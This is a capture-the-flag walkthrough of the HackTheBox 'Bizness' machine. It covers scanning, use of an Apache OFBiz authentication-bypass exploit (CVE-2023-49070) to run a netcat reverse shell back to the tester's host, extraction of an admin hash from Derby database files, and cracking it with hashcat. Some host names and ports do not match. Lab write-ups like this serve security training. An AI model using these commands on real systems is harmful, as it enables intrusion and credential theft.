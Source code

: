 ```yaml
---
title: Bizness
tags:
  - Linux
  - Apache
  - Brute-Forcing
  - HackTheBox
  - Easy
date: 2024-05-01T00:00:00Z
---
```

![](Pasted%20image%2020240501195939.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.59.31 headless.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- headless.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 18:33 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.041s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  https
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
|_http-title: BizNess Incorporated
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
39467/tcp open  unknown
```

Then I went to take a look to the webpage and its code:

![](Pasted%20image%2020240501200309.png)

I did not found anything into it, so I decided to perform a `dirsearch` to the web
- More info in [dirsearch 📁](/notes/Tools/dirsearch.md)

![](Pasted%20image%2020240501200559.png)

I found the direction `/control/login`, which landed me into a login page:

![](Pasted%20image%2020240501200706.png)

> Obviously the `admin:admin` didn't work :<

After analyzing the petition with Burp and obtained nothing, I decided to search for `Apache OFBiz` and discovered the **CVE-2023-49070**

## Weaponization

Consulting in Github I found [Apache OFBiz Authentication Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/tree/master?tab=readme-ov-file) exploit, which I cloned and executed:

## Exploitation


```shell
python3 exploit.py --url https://bizness.htb                                         
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.
```

Now I try to obtain a shell and stabylize it:
- More info in [Reverse shells 👾](/notes/reverse_shells.md)

```shell
python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.14.110 666'
```

And I got a shell:

```shell
└─$ nc -lvp 777
listening on [any] 777 ...
connect to [10.10.14.110] from bizness.htb [10.10.11.252] 60690
python3 -c "import pty; pty.spawn('/bin/bash')"
ofbiz@bizness:/opt/ofbiz$ export TERM=xterm
export TERM=xterm
ofbiz@bizness:/opt/ofbiz$ ^Z
zsh: suspended  nc -lvp 777
                                                                                                                    
┌──(gitblanc㉿playbook)-[~/HackTheBox]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvp 777
                             ls
APACHE2_HEADER  DOCKER.md                INSTALL              README.adoc
applications    docs                     lib                  runtime
build           framework                LICENSE              SECURITY.md
build.gradle    gradle                   linpeas.sh           settings.gradle
common.gradle   gradle.properties        NOTICE               themes
config          gradlew                  npm-shrinkwrap.json  VERSION
docker          gradlew.bat              OPTIONAL_LIBRARIES
Dockerfile      init-gradle-wrapper.bat  plugins
ofbiz@bizness:/opt/ofbiz$
```

### User flag

```shell
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt 
XXXXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

Now, as I know that Apache OFBiz is running, i read a little their [docs](https://cwiki.apache.org/confluence/display/OFBIZ/Home), and find out that they use a Derby database, so I searched for it:

```shell
find / -type d -iname "derby" 2> /dev/null

/home/ofbiz/.gradle/caches/modules-2/files-2.1/org.apache.derby/derby
/home/ofbiz/.gradle/caches/modules-2/metadata-2.69/descriptors/org.apache.derby/derby
/opt/ofbiz/runtime/data/derby
```

I found a binary and a lot of `.dat` files on the `/seg0` directory, so I tried to find the admin password by using the following command:

```shell
find *.dat | xargs grep -a -i "currentPassword="
c54d0.dat:  
<eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

> It also works by doing `strings dir.txt | grep SHA`, but you should have known previously the format of the hash

As I didn't know the hashing function, I went to see the source code of [Apache OFBiz](https://github.com/apache/ofbiz/blob/trunk/framework/base/src/main/java/org/apache/ofbiz/base/crypto/HashCrypt.java) and found the hash function that first performed a hex Encoding and then a base64 encoding:

![](Pasted%20image%2020240501203114.png)

![](Pasted%20image%2020240501203204.png)

Then, after knowing this I decoded it on [Cyberchef](https://cyberchef.org/)

![](Pasted%20image%2020240501203313.png)

Now I did brute force to it using **Hashcat** (using `d` as the salt):
- For more info check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```shell
hashcat -a 0 -m 120 b8fd3f41a541a435857a8f3e751cc3a91c174362:d /usr/share/wordlists/rockyou.txt --show

b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness
```

## Root flag

Now I logged as root and got the flag:

```shell
su root

cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXXX
```

==Machine pwned==
